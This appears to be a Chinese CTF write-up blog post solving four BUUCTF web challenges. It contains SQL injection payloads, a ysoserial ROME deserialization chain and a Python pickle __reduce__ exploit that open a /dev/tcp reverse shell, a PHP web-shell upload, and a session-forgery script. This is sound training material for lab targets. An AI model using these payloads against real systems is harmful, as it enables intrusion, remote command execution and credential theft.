

[buuctf] web区 write up 5
===

# [网鼎杯 2020 朱雀组]Think Java

## 源码审计

访问网站, 是一个 json 对象:


这个题目还有个附件, 打开发现是部分 class 源码, 其中一段关键代码:

```java
@CrossOrigin
@RestController
@RequestMapping({"/common/test"})
public class Test {
    public Test() {
    }

    @PostMapping({"/sqlDict"})
    @Access
    @ApiOperation("为了开发方便对应数据库字典查询")
    public ResponseResult sqlDict(String dbName) throws IOException {
        List<Table> tables = SqlDict.getTableData(dbName, "root", "abc@12345");
        return ResponseResult.e(ResponseCode.OK, tables);
    }
}
```

```java
public class SqlDict {
    public SqlDict() {
    }

    public static Connection getConnection(String dbName, String user, String pass) {
        Connection conn = null;

        try {
            Class.forName("com.mysql.jdbc.Driver");
            if (dbName != null && !dbName.equals("")) {
                dbName = "jdbc:mysql://mysqldbserver:3306/" + dbName;
            } else {
                dbName = "jdbc:mysql://mysqldbserver:3306/myapp";
            }

            if (user == null || dbName.equals("")) {
                user = "root";
            }

            if (pass == null || dbName.equals("")) {
                pass = "abc@12345";
            }

            conn = DriverManager.getConnection(dbName, user, pass);
        } catch (ClassNotFoundException var5) {
            ClassNotFoundException var5 = var5;
            var5.printStackTrace();
        } catch (SQLException var6) {
            SQLException var6 = var6;
            var6.printStackTrace();
        }

        return conn;
    }

    public static List<Table> getTableData(String dbName, String user, String pass) {
        List<Table> Tables = new ArrayList();
        Connection conn = getConnection(dbName, user, pass);
        String TableName = "";

        try {
            Statement stmt = conn.createStatement();
            DatabaseMetaData metaData = conn.getMetaData();
            ResultSet tableNames = metaData.getTables((String)null, (String)null, (String)null, new String[]{"TABLE"});

            while(tableNames.next()) {
                TableName = tableNames.getString(3);
                Table table = new Table();
                String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';";
                ResultSet rs = stmt.executeQuery(sql);

                while(rs.next()) {
                    table.setTableDescribe(rs.getString("TABLE_COMMENT"));
                }

                table.setTableName(TableName);
                ResultSet data = metaData.getColumns(conn.getCatalog(), (String)null, TableName, "");
                ResultSet rs2 = metaData.getPrimaryKeys(conn.getCatalog(), (String)null, TableName);

                String PK;
                for(PK = ""; rs2.next(); PK = rs2.getString(4)) {
                }

                while(data.next()) {
                    Row row = new Row(data.getString("COLUMN_NAME"), data.getString("TYPE_NAME"), data.getString("COLUMN_DEF"), data.getString("NULLABLE").equals("1") ? "YES" : "NO", data.getString("IS_AUTOINCREMENT"), data.getString("REMARKS"), data.getString("COLUMN_NAME").equals(PK) ? "true" : null, data.getString("COLUMN_SIZE"));
                    table.list.add(row);
                }

                Tables.add(table);
            }
        } catch (SQLException var16) {
            SQLException var16 = var16;
            var16.printStackTrace();
        }

        return Tables;
    }
}
```

说明 `/common/test/sqlDict` 下接收 POST 参数并将返回库中表信息; 这个库的名字很可能就是 `myapp`, 传一个 dbName = myapp 试试:


表明库 `myapp` 中只有一张 `user` 表, 有 3 个字段: `id` `name` `pwd`;

接下来进一步观察这个语句:

```java
String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';";
```

这里很可能有 SQL 注入, 编辑一个 payload 并 URL 编码:

```
dbName=myapp%'%20and%20table_name='%22%20+%20TableName%20+%20%22';--
```


直接注入好像行不通, 看了眼 wp, 接下来进一步审计代码发现有 `io.swagger.annotations.ApiOperation` 这个包;

## Java 反序列化

### sawwger 包

swagger-ui 提供了一个可视化的UI页面展示描述文件。接口的调用方、测试、项目经理等都可以在该页面中对相关接口进行查阅和做一些简单的接口请求。该项目支持在线导入描述文件和本地部署UI项目。

### SQL 注入

首先访问 `/swagger-ui.html` 这个地址可以直接看见所有 API:


接下来构造注入 payload:

> 为什么要用两个 `#` : 在 url 中 `#` 表示锚点，表示网页中的一个位置，比如 `http:xxx/index.html#aaa`，浏览器读取这个 url，会将 aaa 移到可视位置。在第一个 `#`，都会被视为位置标识符，不会被发送到服务端, 第二个 `#` 作为注释符, 完成注入;

> 用 `/**/` + `()` 来代替空格;

```
爆出 name:
myapp#'union/**/select/**/group_concat(name)from(user)#

爆出 pwd:
myapp#'union/**/select/**/group_concat(pwd)from(user)#
```


这里爆出账密组合: `admin:admin@Rrrr_ctf_asde`

### 登录

接下来在上方的 login api 中按照模板输入爆出的账密:


返回了一段特征码(token), `rO0AB` 开头说明这是 JAVA 序列化后 base64 编码后的结果, (`aced` 开头则说明是 JAVA 序列化后的 16 进制结果):



接下来在 current 的接口中输入刚刚返回的校验 token:


这一段回显实际上说明, 这里是对拿到的 Auth Token 进行了反序列化, 然后得到的结果, 因此这里其实存在一个**反序列化攻击面**。

### 构造反弹 shell

到这里还有一个大坑, buuctf 的靶场是不能直接联网的, 要打个隧道, 具体看这个[**公告**](https://buuoj.cn/resources)

连上 ovpn 然后在本地开启监听:


```bash
bash -i >& /dev/tcp/10.88.15.149/4444 0>&1
```

把这个 bash 指令 base64 编码, 然后将编码后的结果传进利用工具:

> ysoserial 地址: [Github](https://github.com/frohoff/ysoserial)

```java
java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNDkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```

这样得到的 `a.bin` 是一个包含不可见字符的二进制文件, 为了让 java 正确识别, 需要用 base64 再编码一次才符合规范,

写一个简单的 python 文件即可:

```python
# -*- coding: UTF-8 -*-
import base64
file = open("a.bin","rb")

now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()
```

```cmd
java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNDkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
python file_b64.py
```

然后在刚刚的 `/current` 接口输入得到的序列, 注意要加上 `Bearer ` 这个头部:


本地收到了反弹 shell。

## 提权

用 python 提升交互性, 然后尝试读 flag, 不需要提权直接读出: `flag{26656644-2fff-4d6f-b5d8-e58b32082414}`


# [NewStarCTF 2023 公开赛道]Begin of Upload

## 题解

开门是一个上传界面, 审计一下源代码, 发现是前端过滤


控制台禁用 javascript 即可, 然后传个 shell.php, 直接成功, 还直接显示了目录, 那已经结束了:


用蚁剑连接:


# [HarekazeCTF2019]Easy Notes

## 收集信息

开门是一个说明界面:


审计源代码, 发现有个页面 `?page=flag`:


访问显示不是管理员, 看了一眼抓包, 唯一的身份认证只可能是 session;

接下来试试登录, 这里特别标注了正则表达式的匹配规则: ` /^[0-9A-Za-z_-]{4,64}$/`, 并且连密码也不用, 估计攻击面不在这, 随便输个 1234 先登录:登录后界面如下;


这一串功能大概是: 添加笔记, 浏览笔记, 下载笔记(json, tar 或 zip), 笔记有 title 和 body 两部分, 都是自定义的;

再审计一下提供的源码中的 flag 身份验证:

```php
function is_admin() {
  if (!isset($_SESSION['admin'])) {
    return false;
  }
  return $_SESSION['admin'] === true;
}
```

也就是说只要 session 里面给 admin 赋个值就行, 再看一下 note 的命名和上传规则, 发现 note 的规则居然都在 session 里, 那么 这里就很明显是一处 session 伪造了;

## 反序列化伪造 session:

```python
import re
import requests
URL = 'http://3f5acb67-954b-4e36-918b-d89828576a87.node5.buuoj.cn:81/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

拿到flag;


# [DASCTF 2024最后一战｜寒夜破晓，冬至终章]const_python

## 收集信息

点进靶机什么都没有, 先扫一下目录:


## 代码审计

典中典之代码审计, 访问 `/src` 显示一堆源码:

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    # 初始化 User 对象
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

# 强随机密码
password = str(uuid.uuid4()).replace("-", "")

# username = "admin", auth = "admin"
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']

        # 直接用 username + password 的方式登录是肯定不行的
        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        # 关键词过滤
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

看起来最大的突破点还是反序列化; 注意这里虽然进行了关键词过滤, 但是主要都是过滤的字符串, 没有 `[]'"()` 这类特殊符号;

## pickle 反序列化

接下来就是构造 payload

### 构造 payload

首先注意到 `subprocess` 这个包没有被过滤, 这个包下有 `run`, `check_output` 等函数是可以执行任意命令的, 构造大致如下 python 脚本:

```python
import pickle
import base64
import subprocess


class Exploit:
    def __reduce__(self):
        #return (subprocess.run, (["bash", "-i", ">&", "/dev/tcp/10.88.15.149/4444", "0>&1"],), {"shell": True})
        return (subprocess.run, (["bash", "-c","指令"],), {"shell": True})

# 使用 pickle 协议 3 序列化 Exploit
serialized = pickle.dumps(Exploit(), protocol=3)
print("pickled: ", serialized)
# Base64 编码
b64_encoded = base64.b64encode(serialized).decode()

# 输出编码后的字符串
print(b64_encoded)
```

### 解法 1: 附加在 app.py 后

直接用 `cat` 等指令是没有回显的, 注意到刚刚 `/src` 目录实际上输出的是 `app.py` 目录的文件, 直接把指令结果附加到app.py后面即可:

```python
return (subprocess.run, (["bash", "-c","ls / >> app.py"],), {"shell": True})
```

再次访问 `/src` 可以看到已经执行成功了:


接下来只需要

```python
return (subprocess.run, (["bash", "-c","cat /flag >> app.py"],), {"shell": True})
```


### 解法 2: 反弹 shell

看到 RCE 漏洞自然想到反弹shell, 老规矩, 要在 buuctf 先下个 ovpn 配置文件打个洞:

~这里疯狂的踩坑~, 一开始的payload 是 `"bash -i >& /dev/tcp/10.88.15.149/4444 0>&1"`, 靶机一直显示反序列化成功, 但是主机就是收不到反弹 shell ,急死我了, 结果最后返璞归真发现必须要先用 `bash -c`, 嵌套一下就有了:

```python
return (subprocess.run, (["bash", "-c", "bash -i >& /dev/tcp/10.88.15.149/4444 0>&1"],), {"shell": True})
``` 

~说实话真的很无语~

这样在本地开个 4444 端口监听就能收到了:


同样可以拿下;

这题主要的收获:
1. subprocess 这个库同样有可执行任意系统指令的敏感函数, 注意甄别;
2. `bash -i` 不能直接执行成功的时候, 考虑先用 `bash -c` 套一层在外面, 毕竟不是直接在 bash 里操作;


